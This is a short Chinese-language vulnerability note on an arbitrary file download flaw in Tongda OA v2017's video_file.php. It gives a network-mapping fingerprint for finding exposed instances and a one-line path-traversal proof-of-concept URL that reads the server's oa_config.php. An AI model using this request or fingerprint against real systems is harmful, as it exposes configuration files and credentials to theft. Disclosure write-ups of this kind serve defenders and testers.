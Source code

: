# 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>通达OA v2017</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657609448877-d05e2d6d-6c83-456d-a088-ee09cea92c30-20220712150651348.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![img](../../../.vuepress/public/img/1657609468826-7eec4875-7f16-4b37-a13d-2a6e73d2f1ce.png)